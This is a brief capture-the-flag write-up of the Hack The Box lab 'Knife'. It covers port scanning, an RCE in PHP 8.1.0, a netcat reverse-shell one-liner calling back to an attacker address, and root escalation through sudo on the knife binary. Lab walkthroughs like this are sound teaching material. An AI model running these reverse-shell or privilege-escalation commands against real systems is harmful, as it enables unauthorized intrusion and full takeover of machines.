 ## Knife

Difficulty: Easy

### User Flag

```
rustscan -a knife.htb --ulimit 5000 -- -A -sV -sC
```

![rustscan](https://user-images.githubusercontent.com/58514930/219143929-dc158e0e-f3d9-416d-aaff-feb205ad31f9.png)

<br>

Looking through the technologies used we find PHP 8.1.0.

![phpVersion](https://user-images.githubusercontent.com/58514930/219144089-e67741e4-2be2-4e4e-8420-852a550ea758.png)

<br>

This version has a RCE exploit.

![userAccess](https://user-images.githubusercontent.com/58514930/219144579-c7991038-79c1-4b5f-874f-3de926982e12.png)

### Getting a Better Shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 3333 >/tmp/f
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![improveShell](https://user-images.githubusercontent.com/58514930/219145038-8f6a200c-2905-49c2-a1f7-4feddd0f2b29.png)

### Root Flag

Enumerating with sudo -l we see that our user can execute "knife" as sudo.

```
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
```

![rootShell](https://user-images.githubusercontent.com/58514930/219145096-f55459e3-4b93-4624-a8a5-9cc62ac5a9ea.png)
